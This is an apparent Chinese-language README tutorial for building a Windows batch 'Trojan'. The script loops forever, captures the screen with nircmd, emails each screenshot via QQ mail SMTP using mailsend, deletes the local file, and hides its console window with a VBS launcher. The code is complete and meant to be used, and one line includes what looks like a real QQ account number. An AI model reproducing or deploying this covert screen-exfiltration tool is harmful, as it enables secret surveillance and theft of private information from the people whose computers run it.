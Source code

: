 # 脚本提示

先关闭批处理的回显：

```batch
@echo off
```

然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 30000
```

### 开始我的自动化脚本

1. 创建一个记事本文件，命名为"scripts.bat"然后打开vscode把文件拖进去开始编辑文件
2. 写入如下代码：
```batch
@echo off

PATH %CD%\bin

:loop

nircmd savescreenshot screen.png

mailsend -to 邮箱地址 -from 邮箱地址 -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "所发的邮件名字" -user 193319076 -pass "密码" -attach screen.png

nircmd wait 30000

del screen.png

goto loop
```
3. 点击运行，就可以收到邮件了
   ![预览](.\img\mail.png)
   点开就是截图
   ![截图](.\img\screen.png)
---
---
4. 然后隐藏黑框的方法：
   scripts.bat同目录下新建一个记事本并写入如下代码
```batch
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
WScript.Sleep(0000)
Wsh.Run "scripts.bat",0,True
```
然后把文件后缀给成vbs
就可以实现隐藏黑框了
